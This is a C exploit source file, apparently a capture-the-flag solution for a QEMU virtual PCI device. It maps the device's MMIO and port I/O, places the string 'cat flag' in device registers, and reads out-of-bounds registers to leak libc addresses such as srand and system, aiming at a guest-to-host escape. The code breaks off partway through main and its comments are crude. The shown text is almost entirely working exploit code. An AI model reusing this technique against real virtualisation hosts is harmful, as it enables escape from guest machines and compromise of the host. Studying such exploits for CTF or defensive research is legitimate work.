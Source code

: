 

#### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/io.h>
#include <inttypes.h>

const uint32_t pmio_base = 0xc050;
const uint64_t system_libc = 0x55410;
const uint64_t srand_libc = 0x4a740;
uint64_t mmio_mem;

void mmio_write(uint32_t addr, uint32_t val) {
    *((uint32_t*)(mmio_mem + addr)) = val;
}

uint32_t mmio_read(uint32_t addr) {
    return *((uint32_t*)(mmio_mem + addr));
}

void pmio_write(uint32_t addr, uint32_t val) {
    outl(val, addr);
}

uint32_t pmio_read(uint32_t addr) {
    return (uint32_t)inl(addr);
}

uint32_t fuck_read(uint32_t addr) {
    pmio_write(pmio_base, addr);//fuck addr
    return pmio_read(pmio_base + 4);
}

void fuck_write(uint32_t addr, uint32_t val) {
    pmio_write(pmio_base, addr);//fuck addr
    pmio_write(pmio_base + 4, val);
}

int main() {
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR|O_SYNC);
    if(mmio_fd < 0){
        puts("[-] open failed");
    }
    mmio_mem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if(mmio_mem == MAP_FAILED){
        puts("[-] mmio failed");
    }
    if(iopl(3)){
        puts("[-] pmio failed");
    }

    mmio_write(2<<2, 0x20746163);//fuck regs[2]
    mmio_write(3<<2, 0x67616c66);//fuck regs[3]
    mmio_write(4<<2, 0x00000000);//fuck regs[4]

    uint64_t srand_addr = fuck_read(66<<2);
    srand_addr <<= 32;
    srand_addr += fuck_read(65<<2);
```